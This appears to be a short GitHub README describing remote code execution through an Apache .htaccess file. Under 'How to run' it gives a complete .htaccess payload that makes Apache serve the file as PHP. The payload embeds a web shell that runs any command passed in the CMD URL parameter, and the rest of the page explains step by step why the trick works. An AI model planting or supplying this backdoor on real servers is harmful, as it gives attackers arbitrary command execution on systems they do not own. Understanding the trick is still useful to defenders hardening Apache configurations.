 # RCE in .htaccess
Apache misconfiguration allows run PHP code inside of htaccess 

## How to run

```
AddHandler application/x-httpd-php74 php
<Files "?htaccess">
Require all granted
Order allow,deny
Allow from all
ForceType application/x-httpd-php
</Files>
#<?php shell_exec($_GET['CMD']); ?>
```

# Explanation
Once Apache has received request, he reads .htaccess as Apache configuration file, see that:
- Extensions `php` must be read with `application/x-httpd-php74` type
- Create new configuration pear for files that called by regex `?htaccess`
- Allow full access to .htaccess 
- Open all files with type `application/x-httpd-php`, but as we declared `ForceType` inside of `Files` directive - we say for Apache that `.htaccess` should be opened as PHP file.
- As our `shell_exec` function and all php code is commented Apache just ignores that. 
- Apache transives request to `PHP service`(doesn't matter: php-fpm / libapache2-mod-php)
- PHP service reads `.htaccess` as `.php` file, and looking for `<?php` for starting of execution php code.
- All other content that outside of `<?php` and `?>` will be printed as typical text.
